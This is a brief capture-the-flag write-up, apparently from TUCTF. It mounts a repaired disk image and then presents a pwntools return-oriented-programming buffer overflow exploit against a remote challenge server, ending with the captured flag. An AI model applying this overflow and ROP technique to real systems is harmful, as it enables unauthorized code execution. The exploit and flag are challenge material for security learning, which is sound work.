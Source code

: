 Solved by Dan
start by mounting the disk image found in previous Mega challenges
losetup /dev/loop7 broken.img
fsck.ext4 -b 0 -B 1024 /dev/loop7
# click through with all Y's
mkdir mounted
mount /dev/loop7 mounted
Get the binary rop_me_like_a_hurricane
It is a mini rop challenge, a printFlag function is provided, but requires setting some global variables first. I jump to read to do this.

#!/usr/bin/env python3.7
import pwn

POP_ESI_EDI_EBP =  0x08049471
TARGET = 0x804c03c
READ = 0x080490c0
BUFFER_SIZE = 0x18
PRINT_FLAG = 0x080492ce

ROPS = pwn.p32(READ) + pwn.p32(POP_ESI_EDI_EBP) + pwn.p32(0) + pwn.p32(TARGET) + pwn.p32(12)
ROPS += pwn.p32(PRINT_FLAG)
PAYLOAF = b'a'*(BUFFER_SIZE + 4) + ROPS + b'a'*100

r = pwn.remote('chal.tuctf.com', 31058)
r.sendline(PAYLOAF)
r.recvline()
print(r.recvline().decode('utf-8').strip().split()[1])

TUCTF{bu7_c4n_y0u_ROP_bl1ndf0ld3d?}

